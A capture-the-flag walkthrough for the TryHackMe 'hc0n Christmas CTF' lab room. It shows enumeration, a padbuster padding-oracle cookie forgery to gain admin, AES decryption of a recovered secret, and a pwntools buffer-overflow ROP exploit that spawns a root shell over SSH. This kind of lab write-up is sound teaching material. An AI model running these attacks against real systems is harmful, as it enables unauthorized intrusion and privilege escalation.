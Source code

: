# [hc0n Christmas CTF] (https://tryhackme.com/room/hc0nchristmasctf)

## hackt the planet

### What is the user flag?

1. First, enumerate available ports with nmap to identify running services

```bash
nmap IP
```

[SCREEN01]

2. Visiting the web service at `http://IP:8080`, we discover a ciphertext **RwO9+7tuGJ3nc1cIhN4E31WV/qeYGLURrcS7K+Af85w=**. This appears to be Base64-encoded, likely AES-encrypted data that we'll need to decrypt later

3. Enumerate directories on the web server with gobuster to discover hidden paths

```bash
gobuster dir -u IP -w /root/Desktop/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt
```

[SCREEN02]

4. Examining `http://IP/robots.txt` provides valuable information:

   - Admin username: **administratorhc0nwithyhackme**
   - Reference to an image at `http://IP/iv.png`

5. The image at `http://IP/iv.png` contains text encoded with the Cicada 3301 cipher. Using the translation tables from [uncovering-cicada.fandom](https://uncovering-cicada.fandom.com/wiki/How_the_solved_pages_of_the_Liber_Primus_were_solved), we can decrypt it:

   - Decrypted text: **THEIVFORINGEOAEY**
   - This appears to be the Initialization Vector (IV) needed for AES decryption

6. Register a new account at `http://IP/register.php` and examine the cookies:

   - In your browser, open DevTools -> Storage -> Cookies

7. Use padbuster to perform a Padding Oracle Attack and forge a cookie for the admin user (select option **2** when prompted)

```bash
padbuster http://IP/login.php "COOKIE_VALUE" 8 --cookies hcon=COOKIE_VALUE --encoding 0 -plaintext user=administratorhc0nwithyhackme
```

[SCREEN03]

8. Replace your existing cookie with the newly generated encrypted value, then refresh the page:
   - In the admin panel, you'll find the SecretKeySpec: **hconkwithyhackme**
   - This is the encryption key needed to decrypt the AES ciphertext

[SCREEN04]

9. With all required elements now collected, we can decrypt the ciphertext from step 2:
   - Visit [AES decryption site](https://www.devglan.com/online-tools/aes-encryption-decryption)
   - Input the ciphertext: `RwO9+7tuGJ3nc1cIhN4E31WV/qeYGLURrcS7K+Af85w=`
   - Key: `hconkwithyhackme`
   - IV: `THEIVFORINGEOAEY`
   - Mode: CBC
   - Key Size: 128 bits
   - Output Text Format: Text
   - The decrypted value reveals the SSH username: **thedarktangent**

[SCREEN05]

10. Continuing with directory enumeration, investigate `http://IP/hide-folders/`:

    - This directory contains two subdirectories: `/1/` and `/2/`
    - Accessing `/1/` results in a "Method Not Allowed" error

11. To bypass the method restriction on `/1/`:
    - In DevTools, right-click the `http://IP/hide-folders/1/` request
    - Select "Edit and Resend"
    - Change the HTTP method from `GET` to `OPTIONS`
    - This reveals the first part of the SSH password: **Gf7MRr55**

[SCREEN06]

12. To obtain the second part of the password, download the file from `http://IP/hide-folders/2/`:
    - The executable prompts for a username and password
    - Use the credentials found in the strings output: **stuxnet:n$@#PDuliL**
    - After login, it reveals the second part of the SSH password: **n$@#PDuliL**

```bash
chmod +x hola
strings hola
./hola
# login with stuxnet:n$@#PDuliL
```

[SCREEN07]
[SCREEN08]

13. Put together the password parts and login via SSH to obtain the user flag

```bash
ssh thedarktangent@IP
# Password: Gf7MRr55n$@#PDuliL
cat user.txt
```

[SCREEN09]

---

### What is the root flag?

1. Search for potential privilege escalation vectors by identifying SUID binaries:
   - this will be the `home/thedarktangent/hc0n`

```bash
find / -perm -u=s -type f 2>/dev/null
```

[SCREEN10]

2. Transfer the binary to our attacking machine for analysis:

```bash
# On target machine
python3 -m http.server
```

[SCREEN11]

```bash
# On attacking machine
wget http://IP:8000/hc0n
```

[SCREEN12]

3. Test the binary for buffer overflow vulnerabilities
   - The program crashes with a **SIGSEGV, Segmentation fault**, confirming it's vulnerable to buffer overflow.

```bash
python -c "print 'A'*200" > A.in
gdb hc0n
r < A.in
```

[SCREEN13]

4. Generate a unique pattern to identify the exact offset needed:

```bash
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 200
```

[SCREEN14]

5. Use the generated pattern in GDB to find the exact crash point:

```bash
gdb -q hc0n
r
# When prompted, paste the generated pattern
x $rbp
# Note the value in RBP register
```

[SCREEN15]

6. Calculate the precise offset:

```bash
/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -q 0x6241376241366241
```

[SCREEN16]

7. Create and test a payload to verify our control of the instruction pointer

```bash
python -c "print('A'*56 + '\x43\x43\x42\x42\xfe\xfe\xff\xff')" > payload.in

gdb hc0n
r < payload.in
```

[SCREEN17]

8. Create [an exploit](https://deskel.github.io/posts/thm/hc0n-christmas-ctf) using pwntools to gain a root shell

```python
from pwn import *
import sys

HOST = "IP"
PORT = 22

def SROP_exploit(r):
	pop_rax = 0x40061f
	pop_rdi = 0x400604
	pop_rsi = 0x40060d
	pop_rdx = 0x400616
	bin_sh = 0x4006f8
	syscall = 0x4005fa

	payload = "A"*56
	payload += p64(pop_rax)
	payload += p64(59)
	payload += p64(pop_rdi)
	payload += p64(bin_sh)
	payload += p64(pop_rsi)
	payload += p64(0x0)
	payload += p64(pop_rdx)
	payload += p64(0x0)
	payload += p64(syscall)

	print(r.recvline())
	r.sendline(payload)
	r.interactive()

if __name__== "__main__":
	r = ssh(host=HOST, port=PORT, user="USERNAME", password="PASSWORD")
	s = r.run('./hc0n')
	SROP_exploit(s)
```

9. Run the exploit and obtain the root flag

```bash
pip install pwntools
python script.py

whoami
cat /root/root.txt
```

[SCREEN18]
